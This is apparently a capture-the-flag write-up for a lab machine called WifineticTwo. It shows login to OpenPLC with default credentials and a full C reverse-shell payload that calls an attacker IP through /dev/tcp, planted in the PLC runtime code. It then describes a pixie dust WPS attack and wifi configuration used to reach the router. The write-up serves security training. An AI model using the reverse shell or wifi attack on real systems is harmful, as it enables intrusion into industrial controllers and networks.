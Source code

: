 ```yaml
---
layout: post
title: "WifineticTwo-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/4aaf2ad33bea830079d74497f8e7fefc.webp
---
```


# WifineticTwo

# 1. Enumeration

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled.png' | relative_url }})

There is a http service, take a look of the web application

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_1.png' | relative_url }})

OpenPLC used openplc as default credentials, we use it and it worked.

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_2.png' | relative_url }})

# 2. User flag

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_3.png' | relative_url }})

Inside there is a section with C code that it may run on the server so we try to inject a rev shell

```c
#include "ladder.h"
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

//-----------------------------------------------------------------------------
// DISCLAIMER: EDDITING THIS FILE CAN BREAK YOUR OPENPLC RUNTIME! IF YOU DON'T
// KNOW WHAT YOU'RE DOING, JUST DON'T DO IT. EDIT AT YOUR OWN RISK.
//
// PS: You can always restore original functionality if you broke something
// in here by clicking on the "Restore Original Code" button above.
//-----------------------------------------------------------------------------

//-----------------------------------------------------------------------------
// These are the ignored I/O vectors. If you want to override how OpenPLC
// handles a particular input or output, you must put them in the ignored
// vectors. For example, if you want to override %IX0.5, %IX0.6 and %IW3
// your vectors must be:
//     int ignored_bool_inputs[] = {5, 6}; //%IX0.5 and %IX0.6 ignored
//     int ignored_int_inputs[] = {3}; //%IW3 ignored
//
// Every I/O on the ignored vectors will be skipped by OpenPLC hardware layer
//-----------------------------------------------------------------------------
int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

//-----------------------------------------------------------------------------
// This function is called by the main OpenPLC routine when it is initializing.
// Hardware initialization procedures for your custom layer should be here.
//-----------------------------------------------------------------------------
void initCustomLayer()
{
}

//-----------------------------------------------------------------------------
// This function is called by OpenPLC in a loop. Here the internal input
// buffers must be updated with the values you want. Make sure to use the mutex 
// bufferLock to protect access to the buffers on a threaded environment.
//-----------------------------------------------------------------------------
void updateCustomIn()
{
    // Example Code - Overwritting %IW3 with a fixed value
    // If you want to have %IW3 constantly reading a fixed value (for example, 53)
    // you must add %IW3 to the ignored vectors above, and then just insert this 
    // single line of code in this function:
    //     if (int_input[3] != NULL) *int_input[3] = 53;
}

#define LHOST "10.10.14.246"
#define LPORT "1234"

//-----------------------------------------------------------------------------
// This function is called by OpenPLC in a loop. Here the internal output
// buffers must be updated with the values you want. Make sure to use the mutex 
// bufferLock to protect access to the buffers on a threaded environment.
//-----------------------------------------------------------------------------
void updateCustomOut()
{
    int pipefd[2];
    pid_t pid;

    if (pipe(pipefd) == -1) {
        exit(EXIT_FAILURE);
    }

    pid = fork();
    if (pid == -1) {
        exit(EXIT_FAILURE);
    }

    if (pid == 0) {
        close(pipefd[0]);
        dup2(pipefd[1], STDOUT_FILENO);
        execl("/bin/bash", "/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/" LHOST "/" LPORT " 0>&1 &", NULL);
        exit(EXIT_FAILURE);
    } else {
        close(pipefd[1]);
        wait(NULL);
    }
```

Save and compile

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_4.png' | relative_url }})

It is necessary to run start PLC to execute the reverse shell. 

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_5.png' | relative_url }})

# 3.Priv esc

To get the root flag on this machine we need to use wlan0 interface to hack a wifi network 

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_6.png' | relative_url }})

We can enumerate and try to make a pixie dust attack using oneshot, this attack steal a pin on the router which will help later to access to the password saved on the router.

```jsx
sudo airmon-ng check kill
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_7.png' | relative_url }})

Once we found the password it’s time to connect to the wifi network

We will need two files and a set of command according with the documentation.

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_8.png' | relative_url }})

First path: /etc/wpa_supplicant/wpa_supplicant-wlan0.conf

```c
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=0
update_config=1

network={
  ssid="<NETWORK_SSID>"
  psk="<NETWORK_PASSWORD>"
  key_mgmt=WPA-PSK
  proto=WPA2
  pairwise=CCMP TKIP
  group=CCMP TKIP
  scan_ssid=1
}
```

Second path: /etc/systemd/network/25-wlan.network

```c
[Match]
Name=wlan0

[Network]
DHCP=ipv4
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_9.png' | relative_url }})

```coq
#Enable wpa supplicant to connect it trought it
systemctl enable wpa_supplicant@wlan0.service
#Restart the services to connect automatically
systemctl restart systemd-networkd.service
systemctl restart wpa_supplicant@wlan0.service
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_10.png' | relative_url }})

Use ssh to get into the router and machine pwned!!!

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_11.png' | relative_url }})
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
